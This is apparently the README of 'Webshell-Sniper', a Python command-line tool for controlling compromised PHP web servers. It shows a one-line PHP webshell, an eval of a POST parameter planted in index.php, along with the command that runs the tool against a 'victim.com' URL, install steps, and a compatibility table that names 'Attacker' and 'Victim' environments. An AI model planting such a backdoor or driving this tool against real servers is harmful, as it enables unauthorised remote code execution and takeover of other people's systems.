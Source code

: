 # Webshell-Sniper
A webshell manager via terminal

#### Usage :
```
Usage : 
        python webshell-sniper.py [URL] [METHOD] [AUTH]
Example : 
        python webshell-sniper.py http://127.0.0.1/c.php POST c
Author : 
        ThreatCode <threatcodeer@gmail.com>
```
```
# cat /var/www/html/index.php
<?php eval($_POST['s3cr3t']);?>
# python webshell-sniper.py http://victim.com/index.php POST s3cr3t
...
```

#### Installation:
```
git clone https://github.com/ThreatCode/Webshell-Sniper
cd Webshell-Sniper
pip install -r requirements.txt
```

#### Example : 

> v1.1.2

#### Compatibility :
```
Enviroment :
    Attacker :
        Linux
        python 2.7
    Victim :
        apache 2.4
        php 7.0
```

#### Addations:
1. This tool only support to run on unix-like system.
2. It is able to help user control web server which is running PHP or MySQL.